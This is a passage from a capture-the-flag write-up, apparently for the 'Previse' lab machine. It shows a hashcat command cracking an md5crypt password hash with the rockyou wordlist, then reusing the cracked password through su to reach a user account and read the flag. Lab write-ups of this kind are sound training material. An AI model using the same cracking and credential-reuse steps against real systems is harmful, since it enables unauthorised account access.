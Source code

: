 We get the hach password `$1$🧂llol$DQpmdvnb7EeuO6UaqRItf` of `m4lwhere`
let's crack the hash using hashcat and wordlist rockyou

# Crack m4lwhere hash

```` bash 
hashcat -m 500 hash.txt /usr/share/wordlists/rockyou.txt

Session..........: hashcat
Status...........: Running
Hash.Type........: md5crypt, MD5 (Unix), Cisco-IOS $1$ (MD5)
Hash.Target......: $1$🧂llol$<redacted>
Time.Started.....: Thu Oct 21 22:02:09 2021 (16 secs)
Time.Estimated...: Thu Oct 21 22:02:46 2021 (21 secs)
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:   380.0 kH/s (6.83ms) @ Accel:256 Loops:125 Thr:32 Vec:1
Recovered........: 0/1 (0.00%) Digests, 0/1 (0.00%) Salts
Progress.........: 6168576/14344385 (43.00%)
Rejected.........: 0/6168576 (0.00%)
Restore.Point....: 6168576/14344385 (43.00%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:750-875
Candidates.#1....: lionhead19 -> liloandzues21
````
the password is ilovecody112235!


----
We get the username m4lwhere and password ilovecody112235! so try this credtinational via ssh connection

# connect via ssh and get user flag

```` bash 
www-data@previse:/home$ su m4lwhere
su m4lwhere
Password: ilovecody112235!

m4lwhere@previse:/home$ ls
ls
m4lwhere
m4lwhere@previse:/home$ cd m4lwhere
cd m4lwhere
m4lwhere@previse:~$ ls
ls
user.txt
m4lwhere@previse:~$ cat user.txt
cat user.txt
12b2d3a2990362ed35952b0b5eabaa5b
m4lwhere@previse:~$ 

````
We get user flag
